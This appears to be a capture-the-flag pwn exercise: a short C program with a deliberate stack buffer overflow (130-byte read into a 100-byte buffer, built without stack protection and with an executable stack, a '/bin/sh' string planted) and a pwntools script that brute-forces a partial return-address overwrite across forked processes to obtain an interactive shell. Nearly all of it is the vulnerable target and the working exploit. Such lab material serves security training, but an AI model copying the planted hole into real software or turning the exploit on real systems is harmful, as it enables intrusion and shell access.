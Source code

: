 ```c
void init() {
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	setbuf(stderr, NULL);
	strcpy(s,"/bin/sh");
}

void overflow(void) {
	char buffer[100];
	read(STDIN_FILENO, buffer, 130);
}


int main(void) {
	char buf[100];
	init();
	int n = 0;
	pid_t pid;
	while(1) {
		pid = fork();

		if(pid < 0) {
			puts("fork error");
			exit(0);
		}

		else if(pid == 0) {
			puts("fork?");
			overflow();
			puts("sucess");
			break;
		} else {
			wait(0);
		}
	}
	printf("Failure!");
	return 0;

}
// gcc -m32 -fno-stack-protector -z execstack $1.c -o $1

```

```python
from pwn import *

context.log_level = 'debug'
context(os='linux', arch='i386')

p = process('pie')
p.recvuntil(b'fork?\n')

for i in range(16):
    payload = b'a' * (0x6c + 4) + b'\x09' + p8(7 + 16 * i)
    p.send(payload)
    tmp = p.recvuntil(b'fork?\n', timeout=1)
    print(tmp)
    if tmp == b'':
        p.sendline(b'ls')
        p.interactive()


```
